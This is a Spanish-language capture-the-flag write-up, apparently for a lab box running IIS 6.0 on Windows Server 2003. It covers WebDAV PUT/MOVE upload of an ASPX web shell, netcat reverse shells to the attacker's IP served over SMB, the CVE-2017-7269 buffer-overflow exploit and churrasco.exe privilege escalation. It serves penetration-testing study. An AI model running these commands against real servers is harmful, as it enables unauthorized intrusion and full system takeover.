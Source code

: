 ## Summary

Tags: #Windows #HTTP #IIS #WebDav #ReverShell #BufferOverflow #RCE #JuicyPotato #Churrasco #Server2003

- IP -> 10.10.11.130
- Ports -> TCP (80), UDP (idk)
- OS ->  Windows IIS
- Services & Applications
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p80 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```
Pero no encontramos nada.

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

# Encontramos 
	# Microsoft-ISS/6.0
```

En la captura de Nmap además de encontrar que el puerto 80 esta abierto, podemos ver que nos sale los métodos permitidos.
```bash 
# Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH... 
# Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND...

	# PUT = Subir un archivo al servidor 
	# MOVE = 'Mover' el archivo o cambiarle de extension

# Type WebDav
```

Como vemos que hay un WebDav podemos usar la siguiente herramienta para testear que tipo de archivos podemos subir al servidor. Lo que hace la herramienta es que subirá todo tipo de archivos y nos reportara cuales si logro subir. 
```bash 
❯ davtest -url http://10.10.10.15 
```

* Para un **IIS** una extensión critica es la de **asp o aspx** 

La herramienta nos reporta que no podemos subir la extensión .aspx. Por lo que subiremos un archivo malicioso con otro tipo de extensión que sea permitida, después con el archivo subido, cambiaremos su extensión con el método MOVE a la extensión de .aspx.

Buscaremos la Webshell de Windows para que nos la interprete IIS y así poder ejecutar comandos.
```bash 
❯ locate cmdasp.apsx    # Buscaremos el archivo en nuestra maquina de atacante 
```

```bash 
❯ curl -s -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx

	# d = Subir una data que es indicada con el @ y sera el archivo de la cdm
```

Le cambiamos la extensión al archivo que hemos subido
```bash 
❯ curl -s -X MOVE http://10.10.10.15/cmd.txt -H "Destination:http://10.10.10.15/cmd.aspx"
```

Ahora en la Web, al final de la url le colocamos el cmd.aspx y así podremos obtener la Webshell.

Como tenemos ejecución remota de comandos. Haremos una ReverShell a nuestra IP y al puerto 443. Pero primero buscamos el nc.exe para Windows en nuestra maquina de atacante. 
```bash 
❯ locate nc.exe
```

Compartimos el archivo a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Ahora en la consola de la web hacemos lo siguiente:
```bash 
\\10.10.14.11\smbFolder\nc.exe -e cmd 10.10.14.11 443

	# e = Ejecutamos el Netcat con una cmd, que nos la enviaremos a nuestro equipo por el puerto 443
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

### Segunda forma de intrusión 

Otra forma de hacer la intrusión es por medio del Buffer Overflow
```bash
❯ searchsploit IIS 6.0                        # Para buscar un exploit
```

```bash 
❯ searchsploit -m 41738.py                    # Para descargarnos el exploit .py que nos ayudara a hacer el Buffer Overflow para el IIS 6.0

	# m = move


# O podemos clonarnos el siguiente directorio con un exploit mejor
❯ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```
Al momento de mirar el contenido del exploit, podemos observar que usa el método **PROPFIND** y este método si esta disponible en el servidor. 

Ejecutamos el exploit de la siguiente manera:
```python 
❯ python2 iis6.py <IP Victima> 80 <IP Atacante> 443

	# ip = IP de la maquina victima 
	# 80 = Puerto victima 
	# ip A = Ip de la maquina de atacante
	# 443 = Puerto a abrir de la maquina de atacante  
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

## User

* Ahora nos hemos convertido en NT authority\\network service 


* Ahora buscaremos la forma de ser NT Authority\\System

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetImpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato, este es para servers del 2003
```

Nos descargamos el de la siguiente pagina:
* [Juicy-Potato-Server-2003](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Descargamos el archivo de churracco.exe y lo compartimos a la maquina victima por un servidor smb. 
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

En la consola de Windows para transferirnos el archivo, primero debemos de ir al dir **Temp** y después colocamos el siguiente comando. 
```python
❯ copy \10.10.14.11\\smbFolder\\churrasco.exe churrasco.exe    # Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante

	# IP = IP de atacante
	# smbFolder = Nombre del folder del recurso compartido
	# File.exe = Nombre del archivo .exe a copiar de la maquina de atacante
	# File.exe = Nombre del archivo .exe en el cual se depositara el archivo copiado
```

Ejecutamos el churrasco de la siguiente manera
```bash 
❯ churrasco.exe "\\10.10.14.11\smbFolder\nc.exe -e cmd 10.10.14.11 443"           # Al momento de ejecutar el churrasco debemos de colocar el comandos a ejecutar 
```

Pero antes compartirnos el Netcat a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Nos ponemos en escucha 
```bash 
❯ rlwrap nc -nlvp 443
```

## Root

Ahora somos NT Authority\\System
Buscamos la primer flag del usuario user.txt en Lakis, en donde antes no nos podíamos meter y la segunda flag en Administrator
